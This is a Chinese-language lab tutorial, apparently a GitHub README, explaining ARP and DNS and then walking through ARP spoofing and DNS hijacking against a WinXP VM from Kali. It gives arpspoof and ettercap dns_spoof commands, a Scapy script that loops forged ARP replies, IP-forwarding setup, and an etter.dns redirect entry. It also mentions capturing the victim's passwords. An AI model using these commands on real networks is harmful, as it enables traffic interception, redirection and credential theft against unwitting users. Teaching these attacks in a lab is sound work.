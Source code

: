 # 一条命令，实现ARP欺骗+DNS劫持

## 0、前言：在开始前你需要知道的东西：

### （1）一丢丢的计网基础（ARP是什么，DNS是什么，在二层和三层的工作原理）

ARP：在局域网内，数据包交换的形式是帧，帧传播依靠的是MAC地址，而我们只有主机的IP地址，192.168.xx.xx/10.0.xx.xx之类的，ARP协议即是将主机的IP地址转为MAC地址的协议，第一次会在局域网内广播ARP报文询问指定IP对应的MAC的地址，有主机回应就会把其MAC地址单播给询问主机，然后询问主机就会将该IP和MAC地址的对应关系写入ARP缓存表以便下次使用，下次就不用再以广播的方式获取MAC地址了

DNS：一般我们访问一个网页（或者资源）都是以域名的形式，无论是在浏览器里输入URL还是直接点击A标签，都是通过域名的方式访问资源，但是在网络三层中数据包不是靠域名来交换的，而是靠资源的IP，这就需要我们将域名转为IP地址以便传输数据包，DNS就是这样的存在，主机将需要访问的资源域名发送到DNS服务器上查询其IP，再将获得的结果发送回来，并且在主机本地缓存一份，以后访问就先从本地缓存先找起，这点很关键，等会我们就是在本地DNS缓存上作文章。

### （2）一丢丢的Linux基础（基础命令的使用）

没什么好说的，dddd

### （3）一丢丢python基础（能看懂代码即可）

下面有一段Python代码，有助于理解ARP欺骗原理（重点）

### （4）关于ARP和DNS怎么扯到一起

这就涉及到局域网中一个特殊且重要的角色——网关，网关是访问外网所必须的，相当于连接内网和外网的纽带，在访问外网时，主机会将请求先发送给网关，由网关转发请求给指定服务器获取资源，所以也由网关来请求DNS服务器将域名转为IP地址（不甚准确，在本地无缓存的情况下成立），那么如何获取网关的MAC地址（网关的IP一般由路由器或者其他设备在拨号完成后自动分配，好几种情况，只需要知道网关IP会自动分配就行了），没错，就是通过如上提到的ARP协议获取网关的MAC地址完成通信。这不就串起来了。

## 1、ARP欺骗概念（单向欺骗，双向欺骗）+DNS劫持概念：

## ![ARP欺骗](./image/ARP欺骗.png)

### ARP单向欺骗：

只欺骗被攻击机，伪造成被攻击机的网关，被攻击机发出的流量都先发送至攻击机

### ARP双向欺骗：

欺骗被攻击机，也欺骗被攻击机实际网关，对被攻击机来说，攻击机（伪造）为其网关，对被攻击机实际网关来说，攻击机（伪造）为被攻击机，实现双向欺骗，无论是攻击机还是被攻击机实际网关发送的流量包都会发送至攻击机。

### DNS劫持（又叫域名劫持）：

![DNS劫持](./image/DNS劫持.png)

攻击机向目标机器发送构造好的ARP应答数据包，ARP欺骗成功后，嗅探到对方发出的DNS请求数据包，分析数据包取得ID和端口号后，向目标发送自己构造好的一个DNS返回包，对方收到DNS应答包后，发现ID和端口号全部正确，即把返回数据包中的域名和对应的IP地址保存进DNS缓存表中，而后来的当真实的DNS应答包返回时则被丢弃。

## 2、ARP欺骗+DNS劫持欺骗实验环境：

```python
Kali攻击机：		IP：192.168.32.132			MAC：00:0c:29:df:c8:ef
WinXP被攻击机：		IP：192.168.32.131			MAC：00:0c:29:dc:23:79
网关：             IP：192.168.32.2	MAC：    00:50:56:f8:b1:7d（可用arp -a查看）
```

## 3、ARP（攻击）欺骗：

```python
kali实施arp欺骗命令：（单向，仅欺骗被攻击机）
arpspoof -i eth0 -t 192.168.32.131 192.168.32.2
(双向：arpspoof -i eth0 -t 192.168.32.2 192.168.32.131)
-i：指定使用的监听网卡
-t：攻击主机目标地址 攻击主机网关地址

附：Python脚本版（效果一样的，更有利于理解原理）：
from scapy.layers.l2 import getmacbyip, Ether, ARP
from scapy.sendrecv import sendp
import time

def arp_spoof():
   iface  ="VMware Virtual Ethernet Adapter for VMnet8"

#被攻击机IP和MAC，WinXP
   target_ip = '192.168.32.131'
   target_mac = '00:0c:29:dc:23:79'

#攻击机IP和MAC，kali
#    spoof_ip = '192.168.32.132'
   spoof_mac = '00:0c:29:df:c8:ef'

#网关IP和MAC
   gateway_ip = '192.168.32.2'
   gateway_mac = getmacbyip(gateway_ip)

   while True:
       #构造网络层数据包，欺骗被攻击机，伪造成网关
       packet = Ether(src=spoof_mac, dst=target_mac)/ARP(hwsrc=spoof_mac, psrc=gateway_ip, hwdst=target_mac, pdst=target_ip, op=2)
       sendp(packet, iface=iface)

       #构造网络层数据包，欺骗网关，伪造成被攻击机
       packet = Ether(src=spoof_mac, dst=gateway_mac)/ARP(hwsrc=spoof_mac, psrc=target_ip, hwdst=gateway_mac, pdst=gateway_ip, op=2)
       sendp(packet, iface)
       
       time.sleep(1);

if __name__ == '__main__':
    arp_spoof()
```

此时在WinXP上使用arp -a命令查看IP和MAC地址对应关系，网关IP（192.168.32.2）对应MAC地址为攻击机IP（192.168.32.132）对应MAC地址（00:0c:29:df:c8:ef）即为成功欺骗，此时WinXP是无法上网的。

继续进阶，修改/proc/sys/net/ipv4/ip_forward的值为1，开启kali的流量转发功能

```shell
#查看ip_forward值
┌──(root㉿kali)-[~/Desktop]
└─# cat /proc/sys/net/ipv4/ip_forward
0
#修改其值为1
┌──(root㉿kali)-[~/Desktop]
└─# echo 1 > /proc/sys/net/ipv4/ip_forward
#开启成功
┌──(root㉿kali)-[~/Desktop]
└─# cat /proc/sys/net/ipv4/ip_forward     
1
```

这时重新实施arp欺骗，欺骗成功后被攻击机是可以上网，但是是把流量转发给攻击机，由攻击机充当其网关的角色来转发流量，实现流量劫持。

可以使用wireshark，fiddler等抓包工具来抓取数据包，获取被攻击机敏感信息如账号密码等（PS：如有兴趣可自行搜索教程，这里重点不是这个，恕不赘述）

经过如上步骤，已达成DNS劫持的前提条件，下面继续实验

## 4、DNS劫持：

### 准备工作：

安装ettercap，一般kali自带的只有文本版，也可以安装图形化界面版

```shell
┌──(root㉿kali)-[~/Desktop]
└─# apt-get install ettercap-graphical

#安装完成后，修改配置文件/etc/ettercap/etter.dns
┌──(root㉿kali)-[~/Desktop]
└─# vim /etc/ettercap/etter.dns 
#在最后一行（任意位置都可以啦，记得把注释去掉）添加如下字段：
域名	DNS记录类型	访问域名时需要映射的IP
例：
www.bilibili.com	A	192.168.32.133
*	PTR	192.168.32.133
注：第三个字段IP是作为Apache/Nginx服务器域名来访问，映射时攻击机会向DNS服务器发出对该域名（IP）的请求，国内服务器无域名或域名未备案的话大概率不能访问
```

配置文件修改好后，可以开始使用工具进行DNS劫持了

### 命令行版：

```shell
┌──(root㉿kali)-[~/Desktop]
└─# ettercap -Tq -i eth0 -M arp:remote -P dns_spoof /192.168.32.131// /192.168.32.2//
# -Tq:T以文本模式运行，q以安静模式运行
# -i 指定网卡
# -M （MITM-attack）指定中间人攻击方式，这里是ARP欺骗
# -P 指定插件（也算攻击方式的一种）
# 192.168.32.131 被攻击机IP
# 192.168.32.2	网关IP
```

运行如上命令后，被攻击机DNS缓存内就被写入污染后的DNS记录，且短时间内存在，可在被攻击机上使用如下命令查看：

```shell
Windows：
ipconfig /displaydns
Linux:
nscd -g（查看DNS统计信息，需要看是否自带此工具）
```

### 图形化界面版：

```shell
#kali终端输入ettercap -G或kali菜单直接搜索ettercap使用
┌──(root㉿kali)-[~/Desktop]
└─# ettercap -G    
```

![step_1](./image/step_1.png)

![step_2](./image/step_2.png)

![step_3](./image/step_3.png)



![step_4](./image/step_4.png)



此时访问上面配置文件指定域名时会被定向至指定的IP地址，成功实现DNS劫持，且短时间内生效，发来正确的DNS记录也会被丢弃。这个时候就可以去看看效果了。实验结束记得关闭工具的使用，刷新下DNS缓存及ARP缓存，顺便清除浏览器缓存

```shell
Windows：
#刷新DNS缓存 ipconfig /flushdns
#刷新ARP缓存 ARP -d
```

